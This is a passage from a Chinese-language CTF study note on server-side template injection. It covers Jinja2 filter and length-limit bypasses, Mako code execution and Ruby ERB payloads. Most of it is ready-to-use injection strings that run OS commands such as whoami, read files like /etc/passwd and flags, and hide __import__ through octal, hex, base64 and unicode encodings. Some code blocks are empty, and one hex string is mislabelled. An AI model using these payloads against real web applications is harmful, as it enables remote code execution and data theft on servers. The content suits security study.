{{[].__class__.__base__.__subclasses__()[40]("fla""g")).read()}}
{{[].__class__.__base__.__subclasses__()[40]("fla''g")).read()}}
```

- 编码绕过

1.8进制编码绕过

```python
''.__class__.__mro__[1].__subclasses__()[139].__init__.__globals__['__builtins__']['\137\137\151\155\160\157\162\164\137\137']('os').popen('whoami').read()
其中
"__import__"=="\137\137\151\155\160\157\162\164\137\137"
```

2.16进制编码绕过

```
''.__class__.__mro__[1].__subclasses__()[139].__init__.__globals__['__builtins__']['\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f']('os').popen('whoami').read()
其中
"__import__"=="\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"
```

3.对于python2的话，还可以利用base64进行绕过，对于python3没有decode方法，所以不能使用该方法进行绕过。

```
''.__class__.__mro__[1].__subclasses__()[139].__init__.__globals__['__builtins__']['X19pbXBvcnRfXw=='.decode('base64')]('os').popen('whoami').read()
其中
__import__的base64编码为X19pbXBvcnRfXw==
```

4.unicode编码

```
''.__class__.__mro__[1].__subclasses__()[139].__init__.__globals__['__builtins__']['\u005f\u005f\u0069\u006d\u0070\u006f\u0072\u0074\u005f\u005f']('os').popen('whoami').read()
__import__==\u005f\u005f\u0069\u006d\u0070\u006f\u0072\u0074\u005f\u005f
```

其他的各种编码大部分也都是可以的

### 绕过数字过滤

- 利用算术去生成数字

如果只是过滤了部分数字，我们可以用其他数字通过算术去得到

- 编码绕过
- 过滤器length获取数据结构的长度

```
{{“”.__class__.__bases__.__subclasses__()[a].__init__.__ globals__[‘os’].popen(“ls”).read()}}
```

### 绕过符号过滤

利用flask内置函数和对象获取符号

```
{{a}} #获取下划线

 {{a}} #获取空格

{{a}}  #获取百分号
```

上面的绕过姿势基本上就是现在我积累到的

## ssti长度限制绕过

这个知识点我吃了很多次亏了，好多次考到都不会。。。

当代码中存在长度限制并**未过滤任何字符**且**长度的限制较大**时，应优先考虑使用较短的 Payload 尝试命令执行。

如果使用常规 Payload 比如 __subclasses__ 或 __class__，肯定会导致 Payload 过长。

例如DSBCTF单身杯的ezzz_ssti，限制了40长度的字符，payload打到

```
{{"".__class__.__base__}}
```

后面的subclasses就无法继续打了


因此我们要在这里使用 Flask 内置的全局函数来构造我们的 Payload：

### url_for函数

`url_for` 是 Flask 框架中的一个内置函数，用于生成 URL。



我们看看该函数全局下有哪些可用的模块和方法

使用 __globals__ 属性来获取函数**当前全局空间**下的所有**模块**、函数及属性

```python
from flask import *

print(url_for.__globals__)
```



可以看到这里有eval函数和os模块





我们看一下os模块下有哪些函数

```python
import os

# 获取 os 模块中的所有函数
functions = [name for name in dir(os) if callable(getattr(os, name))]

# 输出函数列表
for func in functions:
    print(func)

```

然后我们可以利用os模块中的popen函数

```
{{url_for.__globals__.os.popen('whoami').read()}}
```

因为 popen 函数返回的结果是个**文件对象**，因此需要调用 **read() 函数**来获取执行结果。

但是上面那个方法其实还是超过了40个字符的，但也算是一种字符长度限制绕过的一个相对较短的payload了

### 将 Payload 保存在 config 全局对象中

这个的话就是参照的DSBCTF官方解来做的一个学习

简单来说就是Flask 框架中存在`config`全局对象，用来保存配置信息。`config` 对象实质上是一个字典的子类，可以像字典一样操作，而`update`方法又可以更新python中的字典。我们就可以利用 Jinja 模板的 `set` 语句配合字典的 `update()` 方法来更新 `config` 全局对象，将字典中的`lipsum.__globals__`更新为`g`，就可以达到在 `config` 全局对象中分段保存 `Payload`，从而绕过长度限制。

先举个例子

```python
d = {'a': 1, 'b': 2, 'c': 3}

d.update(d=4)

print(d)
#{'a': 1, 'b': 2, 'c': 3, 'd': 4}
```

然后结合Jinja2中的set语句去设置模板变量，例如

```

```

这会带来什么结果呢？

```python
config = {}
config.update(a=config.update)
print(config)  # 输出: {'a': <built-in method update of dict object at 0x000002307ECE7A40>}
```

我们在题目中看看，先传入

```
?user=
```

然后查看一下config



可以看到此时确实是设置了一个config的键值a，那我们利用a去更新其他的键值

```
   //f的值被更新为lipsum.__globals__ 
          //o的值被更新为lipsum.__globals__.os
       //p的值被更新为lipsum.__globals__.os.popen
{{config.p("cat /t*").read()}}
```



直接打就行，这里能省去一大部分的字符，也是一种很好的绕过方法

# Flask下的mako模板注入

mako 的一些设计和使用方式与 jinja2 是非常相似的，截止目前主流的模板语言就是 jinja2 和 mako。所以来介绍下 mako 的 SSTI。

## 什么是mako？

**Mako** 是一个用 **Python 编写的模板引擎**。同时也是Pylons 的默认模板语言，和 Jinja2、Django 模板相比，Mako 更接近原生 Python 语法。这也意味着在模板中可以直接写python表达式和执行语句

这次我打算换一种方法，从官方文档去解读这个模板引擎

先看看基础语法

## 基础语法

https://docs.makotemplates.org/en/latest/syntax.html

### mako表达式`${}`

在`${}`中可以传入任何python表达式，在 `${} `标签内的内容将由 Python 直接求值，因此可以使用完整的表达式

例如：

```python
${pow(x,2) + pow(y,2)}
```

需要注意的是，表达式的结果在渲染到输出之前都会被转化成是字符串形式

Mako 包含多种内置的转义机制，包括 HTML、URI 和 XML 转义，以及一个“trim”函数。这些转义可以通过使用 `|`操作符添加到表达式替换中，如果要使用多个过滤器，mako 需要用 `,` 来指定：`${" <tag>some value</tag> " | h,trim}`

```python
${"this is some text" | u}
```

上述表达式将URL转义应用于表达式，并生成this+is+some+text。**u名称表示URL转义，而h表示HTML转义，x表示XML转义，trim则应用了修剪函数。**

如果想要去掉空格，正确的用法是

```python
${"   this is some text   ".strip()}
```

### mako控制结构

控制结构指的是所有控制程序流程的东西——条件语句（例如if/else）、循环（如while和for），以及try/except之类的。在Mako中，控制结构使用`%`标记后跟一个常规Python控制表达式来编写，并通过另一个带有`“end<name>”`标签的`%`标记来“关闭”，其中`“<name>”`是表达式的关键字

```python
%for ... : %endfor	#循环语句
%if ... : ... %elif: ... % else: ... %endif	#条件结构
```

如果我们不需要使用`%`控制结构而是想要单独使用一个`%`的话，需要对百分号进行转义，也就是使用`%%`表示一个单独的百分号

### mako注释

单行注释`##`

```python
## this is a comment.
```

多行注释`<%doc></%doc>`

```python
<%doc>
    these are comments
    more comments
</%doc>
```

### mako使用python代码块

可以使用`<% %>`标签插入任何任意的Python代码块

```python
this is a template
<%
    x = db.get_resource('foo')
    y = [z.element for z in x if x.frobnizzle==5]
%>
% for elem in y:
    element: ${elem}
% endfor
```

在<% %>内，你正在编写一个常规的Python代码块。虽然代码可以带有任意级别的先前空白，但它必须与自身保持一致的格式。Mako的编译器会将Python代码块调整为与周围生成的Python代码保持一致。

### mako导入模块

在`<% %>`的基础上，有一个模块级别的代码块，表示为`<%! %>`. 这些标签内的代码在模板的模块级别执行，使用`<%! %>`标签来声明模板导入，以及我们可能想要声明的任何纯Python函数：

```python
<%!
	import re
    import os
    def test(text):
        return "This is a test"
%>
```

### mako定义函数

在mako中不仅能用`<%! %>`自定义函数，也可以用`<%def> </%def>`去自定义一个函数，其中name参数指的是定义模板函数的名称，args参数指的是定义模板函数的参数

```python
<%def name="foo" buffered="True">
    this is a def
</%def>
```

### mako中包含、配置和继承模板

在 Mako 模板中，`<%include>` 是用来 **引入另一个模板文件** 的指令

```python
<%include file="header.html"/>
```

file指的是要引入的模板文件路径

在 Mako 模板中，`<%page>` 是 **模板级配置标签**，用来指定模板的一些全局属性和行为。它不像 `<%def>` 或 `<%include>` 那样输出内容，而是**控制模板本身**。

```python
<%page encoding="utf-8" import="os, sys"/>
```

通过属性设置模板的行为包括导入的模板、编码方式等

## SSTI in mako

从上面的学习不难看出，mako本身能支持python代码的执行，所以通常利用`<% %>`、`<%! %>`、`${}`这三个标签进行攻击

例如

```python
<%__import__("os").system("whoami")%>

# 或者

${__import__("os").system("whoami")}
```

但是我们需要知道什么情况下mako会存在ssti


## 无回显ssti

可以用到一个新的方法

1、`__M_writer`：与 print 类似，可以直接打印字符串

如果在遇到无回显的时候可利用`__M_writer` 尝试打印。

```python
str(__M_writer(str(__import__("os").system("id"))))
```

2、利用context上下文

https://docs.makotemplates.org/en/latest/runtime.html#context

缓冲区存储在 `Context` 中，通过调用 `Context.write（）` 方法来写入它


# Ruby下的ERB模板注入

ERB是Ruby自带的模板引擎

- <% 写逻辑脚本(Ruby语法) %>
- <%= 直接输出变量值或运算结果 %>

如何判断是否存在模板注入呢？

查找 ERB.new 使用点，然后检查用户输入是否被转义或过滤才传入模板，如果没有就存在SSTI

例如

```ruby
template = "<h1>Hello, #{params[:name]}</h1>"
ERB.new(template).result(binding)
```

这里很明显是一种拼接的方法，而没有任何的处理，所以我们可以传入ERB表达式

## 常见的payload

```ruby
<%= 7 * 7 %>
<%= File.open(‘/etc/passwd’).read %>
<%= self %>    //枚举该对象可用的属性及方法
<%= self.class.name %>   //获取self对象的类名
<%= self.methods %>		//获取当前类的可用方法
<%= system("whoami")%>	//执行系统命令
```

还有一些Ruby的全局变量

## Ruby全局变量

|   Ruby全局变量    |                           中文释义                           |
| :---------------: | :----------------------------------------------------------: |
|        $!         |                           错误信息                           |
|        $@         |                        错误发生的位置                        |
|        $0         |                     正在执行的程序的名称                     |
|        $&         |                       成功匹配的字符串                       |
|        $/         |                   输入分隔符，默认为换行符                   |
|        $\         |                 输出记录分隔符（print和IO）                  |
|        $.         |                 上次读取的文件的当前输入行号                 |
|      $; $-F       |                        默认字段分隔符                        |
|        $,         |            输入字符串分隔符，连接多个字符串时用到            |
|        $=         |                         不区分大小写                         |
|        $~         |                       最后一次匹配数据                       |
|        $`         |                     最后一次匹配前的内容                     |
|        $’         |                     最后一次匹配后的内容                     |
|        $+         |                     最后一个括号匹配内容                     |
|       $1~$9       |                         各组匹配结果                         |
|      $< ARGF      | 命令行中给定的文件的虚拟连接文件（如果未给定任何文件，则从$stdin） |
|        $>         |                        打印的默认输出                        |
|        $_         |                  从输入设备中读取的最后一行                  |
|      $* ARGV      |                          命令行参数                          |
|        $$         |                   运行此脚本的Ruby的进程号                   |
|        $?         |                    最后执行的子进程的状态                    |
|      $: $-I       |                 加载的二进制模块（库）的路径                 |
|        $“         |                 数组包含的需要加载的库的名字                 |
|    $DEBUG $-d     |                    调试标志，由-d开关设置                    |
| $LOADED_FEATURES  |                           $“的别名                           |
|     $FILENAME     |                     来自$<的当前输入文件                     |
|    $LOAD_PATH     |                              $:                              |
|      $stderr      |                       当前标准误差输出                       |
|      $stdin       |                         当前标准输入                         |
|      $stdout      |                         当前标准输出                         |
|   $VERBOSE $-v    |                  详细标志，由-w或-v开关设置                  |
|        $-0        |                              $/                              |
|        $-a        |                             只读                             |
|        $-i        |           在in-place-edit模式下，此变量保存扩展名            |
|        NIL        |                            0本身                             |
|        ENV        |                         当前环境变量                         |
|   RUBY_VERSION    |                           Ruby版本                           |
| RUBY_RELEASE_DATE |                           发布日期                           |
|   RUBY_PLATFORM   |                          平台标识符                          |
